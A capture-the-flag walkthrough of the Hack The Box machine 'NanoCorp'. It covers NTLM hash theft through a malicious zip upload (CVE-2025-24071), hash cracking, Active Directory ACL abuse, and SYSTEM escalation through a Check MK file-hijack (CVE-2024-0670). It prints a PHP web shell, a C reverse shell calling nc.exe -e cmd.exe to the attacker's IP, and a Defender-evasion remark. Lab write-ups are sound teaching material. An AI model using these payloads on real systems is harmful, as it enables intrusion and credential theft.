




## Summary
NanoCorp is a "Hard" Windows box that uses two not very obvious CVE's and a few ACL abuses. The first is a zip/WinRaR bug that allows an NTLM hash to be stolen immediately upon extraction. This gives us a crackable hash as the `web_svc` user which sets us up for some small Active Directory work of abusing ACLs because `web_svc` can add themselves to the `IT Group` and that group can change the password of the `monitoring_svc` account which has WinRM access. Once on the box we can spy a program that's not too typically seen on boxes and that's the `Check MK` program. Some enumeration reveals this program is version 1.21 and vulnerable to another CVE that is abuseable by hijacking a filepath that will be written too and once it encounters the same file, since it can't overwrite, it executes that file, which gives us our desired RCE. There's some quirks about who owns the service, protected users and all, but that's the journey ahead.

## Enumeration

The typical nmap enumeration:

```bash
nmap -vv -sCV -oA nmap/nanocorp -Pn -T4 --min-rate 1000 -p- 10.129.13.227

Nmap scan report for 10.129.13.227
Host is up, received user-set (0.13s latency).
Scanned at 2025-11-08 20:40:13 HST for 248s
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE           REASON  VERSION
53/tcp    open  domain            syn-ack Simple DNS Plus
80/tcp    open  http              syn-ack Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://nanocorp.htb/
88/tcp    open  kerberos-sec      syn-ack Microsoft Windows Kerberos (server time: 2025-11-09 13:42:29Z)
135/tcp   open  msrpc             syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn       syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap              syn-ack Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?     syn-ack
464/tcp   open  kpasswd5?         syn-ack
593/tcp   open  ncacn_http        syn-ack Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap              syn-ack Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb, Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl? syn-ack
5986/tcp  open  ssl/wsmans?       syn-ack
| ssl-cert: Subject: commonName=dc01.nanocorp.htb
| Subject Alternative Name: DNS:dc01.nanocorp.htb
| Issuer: commonName=dc01.nanocorp.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-06T22:58:43
| Not valid after:  2026-04-06T23:18:43
| MD5:     2e3e 1a10 10b8 7f43 dc93 a4d9 05ef 6053
| SHA-1:   4674 6312 27ce e783 91b7 ec00 1746 f114 d669 4ea0
| SHA-256: 45de 169d 93f6 4bd0 148b 2369 5026 1601 482a d91d 294d f080 79e0 9e12 27a2 ab45
| -----BEGIN CERTIFICATE-----
| MIIDMDCCAhigAwIBAgIQIG1hb/WXAZBNVk/iii5EyjANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDDBFkYzAxLm5hbm9jb3JwLmh0YjAeFw0yNTA0MDYyMjU4NDNaFw0y
| NjA0MDYyMzE4NDNaMBwxGjAYBgNVBAMMEWRjMDEubmFub2NvcnAuaHRiMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAvhk2VBmIaEaly06th345bTcNsYcV
| D4rgwzD861bdYfo3DYKG0XykF5u1O17P/jO7TUokAfQB2IeNTAb77ZU1iK1PdCCX
| bv6jeV+MEgsJcvCUSYdX5eEurSnDgTteegJ5APzUVgleNaFMkQi7rB9gG422AJov
| fJzCxPHm0irdfJt0cH5JRGg1+5zcm3A8FzQ1WxBS0KfmfMKCYhnFufpiUcFMtire
| azOyDb4IXFEpWuDVuPrr0O5GwWIiHlydtfY5u8+AeDaIEFHfP2qtN4T+6BEyadOT
| hdbPLxx53qFxAWVfoHjr6M9RWUHKEVmRBacBa4Jjj5VzEWt0IJM9Nq7/2QIDAQAB
| o24wbDAOBgNVHQ8BAf8EBAMCBaAwHQYDVR0lBBYwFAYIKwYBBQUHAwIGCCsGAQUF
| BwMBMBwGA1UdEQQVMBOCEWRjMDEubmFub2NvcnAuaHRiMB0GA1UdDgQWBBQaIgqw
| fFwJfesMFBU9Usbf0k55ODANBgkqhkiG9w0BAQsFAAOCAQEAY84V2Zwkjqqiraun
| KN+g7VoDri61Yn4U6DnVHt2h87gJRNVPukb64oAIqbTuyVRDe9CKtQo8SDul/x/Y
| GbNu0oHXYssqx37uowexR3AwoYkg1rLiRKik1cYbjawVjCUZ8ZEL1OLsMg362uaG
| hEvxeACIwiuoEpPXNWsLr4Vx44ImHMNVEeQg3luTTE/YcaProZO+/7TkB8yj1RbT
| D2hom7Eo8cGz5hVxCsHyv+KjUkWGC/prCEZXKgO+yHwc/ZGQIYnO0gEaNWnxlal5
| hFH4guGtiqkjjSQgPdSrCSxpEE1tHssCualeYyyMtxLq/dNLNSK+uRX+/A0/F7An
| VGJ53g==
|_-----END CERTIFICATE-----
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
9389/tcp  open  mc-nmf            syn-ack .NET Message Framing
49664/tcp open  msrpc             syn-ack Microsoft Windows RPC
49668/tcp open  msrpc             syn-ack Microsoft Windows RPC
49671/tcp open  ncacn_http        syn-ack Microsoft Windows RPC over HTTP 1.0
52404/tcp open  msrpc             syn-ack Microsoft Windows RPC
52423/tcp open  msrpc             syn-ack Microsoft Windows RPC
Service Info: Hosts: nanocorp.htb, DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-11-09T13:43:26
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m58s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 43280/tcp): CLEAN (Timeout)
|   Check 2 (port 53230/tcp): CLEAN (Timeout)
|   Check 3 (port 33246/udp): CLEAN (Timeout)
|   Check 4 (port 39496/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov  8 20:44:21 2025 -- 1 IP address (1 host up) scanned in 248.74 seconds
```


This gets us some key information:
- Operating System  
    - Windows
- Domains:
    - dc01.nanocorp.htb
    - nanocorp.htb
- Oddities
    - Only WinRMs (port 5986)
    - Clock Skew of 7hrs

and it has a webserver.


Add those hosts to our hosts file

```bash
echo $IP {dc01.,}nanocorp.htb | sudo tee -a /etc/hosts 
```

Because we don't have any credentials, let's view the web page first. Some clicking we can see that after some clicking we can find an `About Us` that leads to a hire subdomain




This leads us to the hiring page where we can upload our resume in a zip file.





Filling out some fake stuff to see how it responds first:

```bash
touch test.pdf && zip fake_resume.zip test.pdf
  adding: test.pdf (stored 0%)

```


Putting some fake info and the fake_resume.zip
We get this in response:





So we get a hint that the zip is getting extracted. This made me think of a few things, like zip slips, since on a failure response you get the directory leaked.

```bash
echo '<?php system($_REQUEST[0]); ?>' > shell.php
rm fake_resume.zip
zip fake_resume.zip shell.php
  adding: shell.php (stored 0%)
```

```bash
curl  http://hire.nanocorp.htb/upload.php -F 'fullname=a' -F 'email=a@a.com' -F 'position=Cybersecurity Consultant' -F 'resume=@./fake_resume.zip;type=application/zip';echo
<br />
<b>Warning</b>:  mime_content_type(C:\xampp\tmp\php7BBF.tmp): Failed to open stream: Invalid argument in <b>C:\xampp\htdocs\hire\upload.php</b> on line <b>27</b><br />
Invalid file type. Only ZIP, 7Z, and RAR files are allowed.

```
So I tried to see if it was vulnerable to some zip slips with a few different PoC's that build nice zip files and with varying different names but my payload never ended up in the proper location. Which usually means there's a differnt vulnerability search for, and because this is a windows box, it's probably NTLM related.

So I found [CVE-2025-24071](https://github.com/0x6rss/CVE-2025-24071_PoC/tree/main)

```bash
responder -I tun0 # in one terminal

git clone https://github.com/0x6rss/CVE-2025-24071_PoC/tree/main && cd CVE-2025-24071_PoC

python3 poc.py
Enter your file name: documents #same as POC
Enter IP (EX: 192.168.1.162): 10.10.15.145 # tun0 ip
completed

```
This creates an exploit.zip and we can upload this and see if we get a response caught from responder

```bash
curl  http://hire.nanocorp.htb/upload.php -F 'fullname=a' -F 'email=a@a.com' -F 'position=Cybersecurity Consultant' -F 'resume=@./exploit.zip;type=application/zip';echo
```

And moments later...

```bash
[SMB] NTLMv2-SSP Client   : 10.129.13.227
[SMB] NTLMv2-SSP Username : NANOCORP\web_svc
[SMB] NTLMv2-SSP Hash     : web_svc::NANOCORP:1122334455667788:6113D754EF0450058D29BDF2B80ECD94:010100000000000000828BEB5951DC01CA00865BD8383A6A00000000020008003000580051004B0001001E00570049004E002D00440042005600360048004B004200470052005900440004003400570049004E002D00440042005600360048004B00420047005200590044002E003000580051004B002E004C004F00430041004C00030014003000580051004B002E004C004F00430041004C00050014003000580051004B002E004C004F00430041004C000700080000828BEB5951DC0106000400020000000800300030000000000000000000000000200000DDF63B4FBC486F956D4BCA4F244065B0909C1496FBDCF1D63D8131B1025638040A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310035002E003100340035000000000000000000
[*] Skipping previously captured hash for NANOCORP\web_svc
```


We can crack this hash with hashcat and rockyou.txt

```bash
hashcat web_svc.hash /seclists/rockyou.txt
<snip>
5600 | NetNTLMv2 | Network Protocol


WEB_SVC::NANOCORP:1122334455667788:6113d754ef0450058d29bdf2b80ecd94:010100000000000000828beb5951dc01ca00865bd8383a6a00000000020008003000580051004b0001001e00570049004e002d00440042005600360048004b004200470052005900440004003400570049004e002d00440042005600360048004b00420047005200590044002e003000580051004b002e004c004f00430041004c00030014003000580051004b002e004c004f00430041004c00050014003000580051004b002e004c004f00430041004c000700080000828beb5951dc0106000400020000000800300030000000000000000000000000200000ddf63b4fbc486f956d4bca4f244065b0909c1496fbdcf1d63d8131b1025638040a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310035002e003100340035000000000000000000:dk**********@#

</snip>

```

This allows us to use this account to grab some juicy active directory data. I'll be using rusthound, if you do make sure you grab the latest release.

## Foothold

```bash
rusthound -z -c All -d nanocorp.htb -u web_svc -p $web_pass
```

We can upload the resulting data into blood hound and see our users permissions.



`web_svc` has the ability to add themselves into `IT_SUPPORT` which can ForceChangePassword onto `monitoring_svc`

And `monitoring_svc` has remote management capabilities, and notably is also a protected user.

We can perform this sequence with BloodyAD

```bash

bloodyAD -d nanocorp.htb --host dc01.nanocorp.htb -u web_svc -p $web_svc_pass add groupMember 'IT_SUPPORT' web_svc
[+] web_svc added to IT_SUPPORT
bloodyAD -d nanocorp.htb --host dc01.nanocorp.htb -u web_svc -p $web_svc_pass set password 'monitoring_svc' 'P@ssword123!'
[+] Password changed successfully!
```

Initially trying to login though we get information that this account is restricted
```bash
nxc smb dc01.nanocorp.htb -u monitoring_svc -p 'P@ssword123!'
SMB         10.129.11.183   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:nanocorp.htb) (signing:True) (SMBv1:False)
SMB         10.129.11.183   445    DC01             [-] nanocorp.htb\monitoring_svc:P@ssword123! STATUS_ACCOUNT_RESTRICTION

```

So we should try to login with a different mechanism, like kerberos.

We'll take into account the clock skew and get a kerberos configuration file and ticket and see if it all works

```bash
faketime -f +7hr bash
nxc smb dc01.nanocorp.htb -u 'web_svc' -p $web_svc_pass --generate-krb5-file nanocorp.krb5.conf
export KRB5_CONFIG=$PWD/nanocorp.krb5.conf

getTGT.py nanocorp.htb/monitoring_svc:'P@ssword123!'
[*] Saving ticket in monitoring_svc.ccache
export KRB5CCNAME=$PWD/monitoring_svc.ccache


nxc smb dc01.nanocorp.htb -k --use-kcache
SMB         dc01.nanocorp.htb 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:nanocorp.htb) (signing:True) (SMBv1:False)
SMB         dc01.nanocorp.htb 445    DC01             [+] NANOCORP.HTB\monitoring_svc from ccache
```


This works, now we can try to access via winRM

```bash
evil-winrm -i dc01.nanocorp.htb -r nanocorp.htb --ssl --user monitoring_svc --password 'P@ssword123!' --port 5986

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Warning: User is not needed for Kerberos auth. Ticket will be used

Warning: Password is not needed for Kerberos auth. Ticket will be used

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1

```

for...some reason it fails. This seems to be a ruby error perhaps with the ssl. Since I've never had to use ssl with WinRM except on this box. So to verify there's another tool available.

[winrmexec](https://github.com/ozelis/winrmexec)

```bash
git clone https://github.com/ozelis/winrmexec && cd winrmexec

python3 evil_winrmexec.py dc01.nanocorp.htb -k -no-pass -ssl
```
```powershell
PS C:\Users\monitoring_svc\Documents> type ..\Desktop\flag.txt

```

And that works!


## Path to SYSTEM


This box is actually pretty barren and the only thing out of the ordinary you should find after snooping in the `C:\progra~1` and `C:\progra~2` directories the `CheckMK` software.

```powershell
PS C:\Users\monitoring_svc\Documents> gci C:\progra~2


    Directory: C:\Program Files (x86)


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----          4/5/2025   4:17 PM                checkmk 

```

We don't have access to this directory, but some googling shows it's a Monitoring agent and we can view some info about it from the registry:

```powershell
reg query "HKLM\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall" /s

<snip>
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall\{675A6D5C-FF5A-11EF-AEA3-1967AD678D6D}
    AuthorizedCDFPrefix    REG_SZ
    Comments    REG_SZ
    Contact    REG_SZ
    DisplayVersion    REG_SZ    2.1.0.50010
    HelpLink    REG_EXPAND_SZ    https://checkmk.com
    HelpTelephone    REG_SZ
    InstallDate    REG_SZ    20250405
    InstallLocation    REG_SZ
    InstallSource    REG_SZ    C:\Users\web_svc\Desktop\
    ModifyPath    REG_EXPAND_SZ    MsiExec.exe /X{675A6D5C-FF5A-11EF-AEA3-1967AD678D6D}
    NoModify    REG_DWORD    0x1
    Publisher    REG_SZ    tribe29 GmbH
    Readme    REG_SZ
    Size    REG_SZ
    EstimatedSize    REG_DWORD    0x4eaf9
    UninstallString    REG_EXPAND_SZ    MsiExec.exe /X{675A6D5C-FF5A-11EF-AEA3-1967AD678D6D}
    URLInfoAbout    REG_SZ    https://checkmk.com
    URLUpdateInfo    REG_SZ
    VersionMajor    REG_DWORD    0x2
    VersionMinor    REG_DWORD    0x1
    WindowsInstaller    REG_DWORD    0x1
    Version    REG_DWORD    0x2010000
    Language    REG_DWORD    0x409
    DisplayName    REG_SZ    Check MK Agent 2.1

</snip>
```

There's two important things from here:

The version is 2.1 and it was installed by the `web_svc` account

Some more googling you should eventually find this [page](https://cxsecurity.com/issue/WLB-2024030038) documenting CVE-2024-0670

Which shows this program is vulnerable to a file-hijacking vulnerability. Because it writes to C:\Windows\Temp on restarts, apparently saving it's state perhaps and if it cannot write to that file, it executes it, running as system.

There's a few things that we should check beforehand though, like verifying a file gets written on restart, just incase it's slightly different than what we expect.

If you try to view the contents as `monitoring_svc` we get an access denied, so we can't use this user, though we can try and use `web_svc` since this user did install the program.

[RunasCs](https://github.com/antonioCoco/RunasCs) will save us here.

Upload this to the box however you like and now you'll be able to view the contents of the directory:

```powershell
PS C:\Temp> .\racs.exe web_svc 'dkse*********#' 'powershell -c gci C:\Windows\Temp\'


    Directory: C:\Windows\Temp


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         11/3/2025   5:05 PM                vmware-SYSTEM
-a----        11/10/2025   7:05 PM             53 af397ef28e484961ba48646a5d38cf54.db.ses
-a----        11/10/2025   7:05 PM              0 mat-debug-6012.log
-a----        11/10/2025  11:04 PM          35532 MpCmdRun.log
-a----        11/10/2025   7:04 PM            102 silconfig.log
-a----         11/4/2025   3:20 PM         189079 vmware-vmsvc-SYSTEM.log
-a----         11/4/2025   3:18 PM          16602 vmware-vmtoolsd-Administrator.log
-a----        11/10/2025   7:03 PM          20998 vmware-vmtoolsd-SYSTEM.log
-a----        11/10/2025   7:21 PM           4891 vmware-vmtoolsd-web_svc.log
-a----         11/4/2025   3:20 PM          66145 vmware-vmusr-Administrator.log
-a----        11/10/2025   7:21 PM           5980 vmware-vmusr-web_svc.log
-a----        11/10/2025   7:03 PM          20132 vmware-vmvss-SYSTEM.log

```

Now because this is likely fast...created a script to catch it calling it `monitor.ps1`
```powershell
mkdir C:\Temp
$LogFile = "C:\Temp\monitor_log.txt"
Write-Host "Monitoring C:\Windows\Temp for cmk files..."

while ($true) {
    # 1. Attempt to list the directory contents forcefully
    $Files = Get-ChildItem -Path C:\Windows\Temp -Force -ErrorAction SilentlyContinue

    if ($Files) {
        # 2. Filter for the target file pattern
        $TargetFiles = $Files | Where-Object { $_.Name -like "cmk_all_*_*.cmd" }

        if ($TargetFiles) {
            # 3. Log the discovery
            $Timestamp = Get-Date -Format "HH:mm:ss.fff"
            $TargetFiles | ForEach-Object { 
                Add-Content -Path $LogFile -Value "$Timestamp [FOUND] $($_.Name)"
            }
        }
    }
    # Optional: Short delay to prevent excessive CPU usage
    Start-Sleep -Milliseconds 50
}

```


Now run it.
```powershell
.\racs.exe web_svc 'dkse**********' 'cmd /c start /b powershell -File C:\Temp\monitor.ps1'

```

And then we'll use websvc to perform the msiexec command as well since web_svc installed it.

```powershell
.\racs.exe web_svc 'dks***********' 'cmd /c  msiexec /fa {675A6D5C-FF5A-11EF-AEA3-1967AD678D6D} /qn '

```

We can check our logs now:
```powershell
PS C:\Temp> type monitor_log.txt
23:46:56.694 [FOUND] cmk_all_5888_1.cmd
23:46:56.803 [FOUND] cmk_all_5888_1.cmd
23:46:56.881 [FOUND] cmk_all_5888_1.cmd
23:46:56.944 [FOUND] cmk_all_5888_1.cmd
23:46:57.006 [FOUND] cmk_all_5888_1.cmd
23:46:57.069 [FOUND] cmk_all_5888_1.cmd
23:46:57.131 [FOUND] cmk_all_5888_1.cmd
23:46:57.194 [FOUND] cmk_all_5888_1.cmd
23:46:57.257 [FOUND] cmk_all_5888_1.cmd
23:46:57.319 [FOUND] cmk_all_5888_1.cmd
23:46:57.381 [FOUND] cmk_all_5888_1.cmd
```


Perfect! So we know it's cmk_all_<pid>_1.cmd just like thr writeup, it's nice to verify.

We get a good guess of pids now, but checking the max PID currently.

```powershell
PS C:\Temp> get-process | sort-object ID | Select -Last 1

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                  
-------  ------    -----      -----     ------     --  -- -----------                                                  
    192      12     2640      16352              7044   2 RuntimeBroker                                                

```

That PID is 7044 so to cover everything we could go from 1-10000

Since we're going to copy nearly 10,000 files it should be a small payload and we also need to bypass windows defender so that rules out most common reverse shell payloads. Luckiyl nc.exe doesn't trigger it!

```c
#include <stdlib.h>


int main() {

   system("cmd.exe /c C:\\Temp\\nc.exe -e cmd.exe $YOUR_IP 9001");

   return 0;

}

```

I used zig to compile it since it's fully capable:

```bash
zig cc main.c -target x86_64-windows -ffunction-sections -fdata-sections -s -o rev.exe


ls -la rev.exe
.rwxr-xr-x  19k alex 10 Nov 15:25 rev.exe
```

a 19k executable, that we're copying 10k times.
That's about 180MB of disk space needed

```powershell

PS C:\Temp> .\racs.exe web_svc 'dksehdgh712!@#' 'powershell -c Get-CimInstance -ClassName win32_logicaldisk | select-ob
ject DeviceID, Size, FreeSpace'


DeviceID        Size  FreeSpace
--------        ----  ---------
C:       22833786880 4823695360

```

Looks like we're good!


If not, we could be more strict with our range or specifically build a windows exe on windows making WinAPI calls and such to reduce the size, but I'm on Linux and it ain't that serious :)

I transfered over nc.exe and rev.exe into the `C:\Temp` directory

setup the nc listener:
```bash
rlwrap nc -lvnp 9001


```

Then ran the payloads...

```powershell
1..9000 | foreach { copy-item C:\Temp\rev.exe C:\Windows\Temp\cmk_all_${_}_1.cmd; Set-ItemProperty -Path C:\Windows\Temp\cmk_all_${_}_1.cmd -name IsReadOnly -value $true; }


.\racs.exe web_svc 'dksehdgh712!@#' 'cmd /c  msiexec /fa {675A6D5C-FF5A-11EF-AEA3-1967AD678D6D} /qn '
```

And as soon as that completes, we get a callback:

```bash

Microsoft Windows [Version 10.0.20348.3207]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
    
whoami
nt authority\system

```

And that is the box.


